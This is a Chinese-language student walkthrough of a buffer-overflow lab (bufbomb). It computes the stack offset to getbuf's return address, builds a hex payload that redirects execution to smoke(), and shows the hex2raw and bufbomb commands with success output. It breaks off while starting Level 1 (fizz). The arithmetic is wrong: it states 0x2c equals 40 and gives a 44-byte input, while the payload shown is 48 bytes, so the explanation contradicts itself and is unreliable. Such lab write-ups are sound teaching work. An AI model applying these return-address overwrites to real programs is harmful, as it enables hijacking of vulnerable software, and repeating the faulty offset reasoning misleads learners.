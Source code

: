 ```
 8048c0a: 8d 45 d8              lea    -0x28(%ebp),%eax
 8048c0d: 89 04 24              mov    %eax,(%esp)
 8048c10: e8 35 ff ff ff        call   8048b4a <Gets>
```

可知，我们输入的字符串的首地址-0x28(%ebp)，它会传给%eax，然后作为Gets的参数，Gets负责把我们输入的字符串放在-0x28(%ebp)开始的内存块里。熟悉函数调用栈结构的你应该知道，函数的返回地址在ebp的上边一个存储单元，从buf_asm可以看出，这个程序的虚拟地址空间是32位，即4个字节，故返回地址在+0x4(%ebp)这个位置，我们要在这个位置写入smoke()的开始地址，查找我们事先存在buf_table的符号表，得到smoke()对应的地址是0x080490ba

```
+0x4(%ebp)-(-0x28((%ebp)) = +0x4+%ebp-(-0x28+%ebp) = +0x4+0x28 = 0x2c = 40
```

因此我们输入的字符串要长40+4=44字节，前面的40个字节的字符帮助我们一路覆盖到返回地址之前，可以随便写，后边4个字节为我们指定的返回地址，即ba 90 04 08（0x080490ba的小端模式排列，即低位字节在前，高位字节在后），当程序执行完getbuf()后会跳转到这个地址去执行smoke()。

因此我们可以输入

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 ba 90 04 08
```

我们可以在文件in0里写入上述十六进制数字，使用命令

```
$./hex2raw in0 out0
```

（如果你从网站上下载下来的hex2raw可以执行，就用bufbomb.psf里提到的格式输入指令）将这些十六进制数字转换成ASCII码并保存到文件out0中
hex2raw会自动忽略文件里的空格和换行，不必担心排列问题。有些ASCII码不可打印，所以如果你cat out0可能看不到几个字符。
接着，我们运行bufbomb输入我们的字符，在终端输入指令

```
$./bufbomb < out0 -u yy
```

提示告诉我们

```
Userid: yy
Cookie: 0x2a50279f
Type string:Smoke!: You called smoke() 
VAILD
NICE JOB!
```

通过了！

# Level 1
该级别的任务要求我们使bufbomb程序调用函数fizz()。
查找符号表的fizz()入口地址为0804906f. 我们可以用6f 90 04 08替换level0中输入的最后4个字节，实现跳转。但是，fizz()需要一个参数，当这个参数等于你的id对应的cookie时游戏才能顺利升级。使用指令(看实验指导，这个指令是实验材料给的)
